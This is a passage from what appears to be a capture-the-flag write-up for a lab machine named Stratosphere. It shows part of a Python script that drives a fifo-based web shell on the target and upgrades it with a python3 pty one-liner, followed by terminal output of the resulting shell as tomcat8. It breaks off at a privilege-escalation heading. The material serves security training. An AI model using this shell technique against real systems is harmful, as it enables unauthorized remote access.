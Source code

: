         def UpgradeShell(self):
            # upgrade shell
            UpgradeShell = """python3 -c 'import pty; pty.spawn("/bin/bash")'"""
            self.WriteCmd(UpgradeShell)

    prompt = "stratosphere> "
    S = Stratosphere()
    while True:
        cmd = input(prompt)
        if cmd == "upgrade":
            prompt = ""
            S.UpgradeShell()
        else:
            S.WriteCmd(cmd)



### Successful Shell

That gives a nice stateful shell:



    root@kali# python3 ./stratosphere_shell.py
    [*] Session ID: 17370
    [*] Setting up fifo shell on target
    [*] Setting up read thread
    stratosphere> pwd
    /var/lib/tomcat8

    stratosphere>

    ls
    conf
    db_connect
    lib
    logs
    policy
    webapps
    work

    stratosphere> cd ..
    stratosphere> pwd
    /var/lib

    stratosphere> upgrade
    tomcat8@stratosphere:/var/lib$
    /var/lib
    tomcat8@stratosphere:/var/lib$



## Privesc: tomcat8 --\> richard

### MiriaDB Database
